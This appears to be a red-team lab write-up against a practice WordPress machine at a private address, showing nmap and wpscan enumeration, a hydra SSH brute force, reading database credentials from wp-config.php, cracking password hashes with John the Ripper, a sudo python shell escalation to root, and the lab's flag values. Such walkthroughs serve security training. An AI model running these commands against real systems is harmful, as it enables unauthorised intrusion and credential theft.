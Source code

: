 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -A 192.168.1.110 
```
![nmap scan](./Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp Open ssh
  - Port 80/tcp Open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp netbios-ssn
  - Port 445/tcp netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Open Ports
  - Wordpress Scan
  - Weak Passwords
  - MySQL Database Access
  - MySql Data Exfiltration
  - Privilege Escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Wpscan was used to enumerate users of Target 1's Wordpress site.

      - `wpscan http://192.168.1.110/wordpress/ --enumerate u`
      
      ![enumerate users](./Images/enumerate_users.png)
      - Michael had a weak password that could have been guessed easily. Alternatively a tool such as hydra could be used to brute force the password.
      
      - `hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh`
      
      ![hydra](./Images/hydra.png)
      - After the discovery of michael's password accessing the Target 1 machine via ssh became possible.
      - `ssh michael@192.168.1.110`
      
      ![michael ssh](./Images/michaelSSH.png)
      - Flag1 can be found by moving into the `/var/www/html/` directory then viewing the `service.html` file using a command such as `cat` or `nano`.
      
      - `cd /var/www/html/`
      - `cat service.html`
      
      ![flag1](./Images/flag1.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Flag2 can be found using the `locate` command.
      
      - `locate flag2.txt`
      
      ![locate flag2](./Images/locateFlag2.png)
      
      - `cd /var/www/`
      - `cat flag2.txt`
      
      ![flag2](./Images/flag2.png)
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Login credentials can be found by moving into the `/var/www/html/wordpress/` directory and viewing the `wp-config.php` file using a command such as `cat` or `nano`.
      
      - `cd /var/www/html/wordpress/`
      - `cat wp-config.php`
      
      ![MySQL login credentials](./Images/mysqlCredentials.png)
      - The login credentials can be used to login to the MySQL database.
      
      - `mysql -u root -p'R@v3nSecurity'`
      
      ![MySQL login](./Images/mysqlLogin.png)
      - After logging in to the MySQL database and browsing through the various databases and tables flag3 can be found in the `wp_posts` table. _flag4 can also be found here._
      
      - `show databases;`
      - `use wordpress;`
      
      ![show databses and use wordpress](./Images/showDatabases.png)
      
      - `show tables;`
      
      ![show tables](./Images/showTables.png)
      
      - `select * from wp_posts` 
      
      ![flag3](./Images/flag3.png)
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Although flag4 can be found in the same location as flag3, there is an alternate method to finding it.
      - While still in the MySQL database the password hashes for michael and steven can be found in`wp_users`.
      
      ![password hashes](./Images/passwordHashes.png)
      - After discovering steven's password hash and exfiltrating it into a txt file John the Ripper can be used to crack the password hash.
      
      - `echo 'steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' > wp_hashes.txt`
      - `john wp_hashes.txt`
      
      ![steven](./Images/john.png)
      - Steven's credentials can be used to ssh back into the Target 1 machine.
      
      ![steven SSH](./Images/stevenSSH.png)
      - By checking steven's privliges it is revealed that he has `sudo` priviliges for python
      
      - `sudo -l`
      
      ![privileges](./Images/privileges.png)
      - Steven's python privileges can be use to escalate to root.
      
      - `sudo python -c 'import pty;pty.spawn("/bin/bash")'`
      
      ![privilege escalation](privilegeEscalation.png)
      - As root the `locate` command can be used to find flag4.
      
      - `locate flag4.txt`
      
      ![locate flag4](./Images/locateFlag4.png)
      
      - `cd /root/`
      - `cat flag4.txt`
      
      ![flag4](./Images/flag4.png)